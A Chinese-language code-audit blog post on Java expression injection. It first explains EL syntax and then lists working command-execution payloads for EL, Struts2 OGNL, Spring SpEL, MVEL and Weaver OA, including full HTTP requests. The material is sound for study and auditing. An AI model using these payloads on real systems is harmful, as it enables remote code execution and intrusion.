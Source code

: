 ```yaml
---
title: "Java 表达式注入"
date: 2020-05-08T11:40:36+08:00
draft: false
tags:
- java
- EL表达式
series:
-
categories:
- 代码审计
---
```


<!--more-->

## 简介
Java中表达式根据框架分为好多种，其中EL表达式是jsp的内置语音，是为了让jsp写起来更简单而出现的，其设计思想来源自`ECMAScript`和`XPath`。使用EL表达式我们可以在jsp页面中执行运算、获取数据、调用方法、获取对象等操作。其基本语法为`${变量表达式}`。

## 基本语法
大部分的语法都和jsp差不多，说下不太一样的。

### 获取变量

```jsp
<%@ page import="java.util.HashMap" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%
    String name = "张三";
    request.setAttribute("name",name);

    request.setAttribute("request", "request_name");
    session.setAttribute("session", "session_name");
    pageContext.setAttribute("page", "page_name");
    application.setAttribute("application", "application_name");
    HashMap<String, String> map = new HashMap<>();
    map.put("my-name", "admin");
    request.setAttribute("test", map);
%>
从四个作用域中搜索变量：${name}
</br>
<%--获取作用域--%>
从requestScope作用域中获取变量：${requestScope.request}
</br>
从sessionScope作用域中获取变量：${sessionScope.session}
</br>
从pageScope作用域中获取变量：${pageScope.page}
</br>
从applicationScope作用域中获取变量：${applicationScope.application}
</br>
从作用域中获取特殊符号变量：${requestScope.test["my-name"]}
```
### 操作符

|  类型  | 符号                                                         |
| :----: | ------------------------------------------------------------ |
| 算术型 | +、-（二元）、`*`、/、div、%、mod、-（一元）     |
| 逻辑型 | and、&&、or、双管道符、!、not                                |
| 关系型 | ==、eq、!=、ne、<、lt、>、gt、<=、le、>=、ge。可以与其他值进行比较，或与布尔型、字符串型、整型或浮点型文字进行比较。 |
|   空   | empty 空操作符是前缀操作，可用于确定值是否为空。             |
| 条件型 | A ?B :C。根据 A 赋值的结果来赋值 B 或 C。                    |

### 隐式对象
1. pageContext
2. param paramValues
3. header headerValues
4. cookie
5. initParam
6. Scope系列

### 函数

```jsp
${ns:func(param1, param2, ...)}
```
用el表达式调用函数必须使用`taglib`引入你的标签库

### 调用Java方法

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@taglib prefix="elFunc" uri="http://www.test.com/elFunc" %>
<%
    String name = "张三";
    request.setAttribute("name",name);
%>
调用函数：${elFunc:elFunc(name)}
```
页面输出 `调用函数：hello 张三`

### 禁用/启用EL表达式
全局禁用EL表达式，web.xml中进入如下配置：

```xml
<jsp-config>
    <jsp-property-group>
        <url-pattern>*.jsp</url-pattern>
        <el-ignored>true</el-ignored>
    </jsp-property-group>
</jsp-config>
```
单个文件禁用EL表达式
在JSP文件中可以有如下定义：

```jsp
<%@ page isELIgnored="true" %>
```
该语句表示是否禁用EL表达式，TRUE表示禁止，FALSE表示不禁止。

JSP2.0中默认的启用EL表达式。


## 表达式注入漏洞实例
原理都是一样的：表达式全部或部份外部可控。先列一些通用的poc，然后按照不同框架简单划分下。

### 通用POC

```jsp
${pageContext}
${pageContext.getSession().getServletContext().getClassLoader().getResource("")}
${header}
${applicationScope}
${pageContext.setAttribute("a","".getClass().forName("java.lang.Runtime").getMethod("exec","".getClass()).invoke("".getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(null),"calc.exe"))}
```

### Struts2 OGNL
```
@[类全名（包括包路径）]@[方法名 |  值名]，例如：
@java.lang.String@format('foo %s', 'bar')
```

实例代码

```java
ActionContext AC = ActionContext.getContext();
String expression = "${(new java.lang.ProcessBuilder('calc')).start()}";
AC.getValueStack().findValue(expression));
```

### Spring SPEL

```java
String expression = "T(java.lang.Runtime).getRuntime().exec(/"calc/")";
String result = parser.parseExpression(expression).getValue().toString();
```

### JSP JSTL_EL

```jsp
<spring:message text="${/"/".getClass().forName(/"java.lang.Runtime/").getMethod(/"getRuntime/",null).invoke(null,null).exec(/"calc/",null).toString()}">
</spring:message>
```

### Elasticsearch MVEL

```java
String expression = "new java.lang.ProcessBuilder(/"calc/").start();";  
Boolean result = (Boolean) MVEL.eval(expression, vars);
```

### 泛微OA EL表达式注入

```jsp
login.do?message=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())
```
或者POST

```jsp
message=(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#w=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter()).(#w.print(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(#parameters.cmd[0]).getInputStream()))).(#w.close())&cmd=whoami
```

还有一种

```jsp
POST /weaver/bsh.servlet.BshServlet
bsh.script=eval%00("ex"%2b"ec(\\"cmd+/c+calc\\")");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
```

## 绕过
1. 反射
2. unicode
3. 八进制

## 参考
1. [泛微e-mobile ognl注入](https://github.com/Mr-xn/Penetration_Testing_POC/blob/master/%E6%B3%9B%E5%BE%AEe-mobile%20ognl%E6%B3%A8%E5%85%A5.md)
2. https://xz.aliyun.com/t/7692
3. https://www.jianshu.com/p/14e9af313e93
4. [表达式注入](https://misakikata.github.io/2018/09/%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5/)


**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**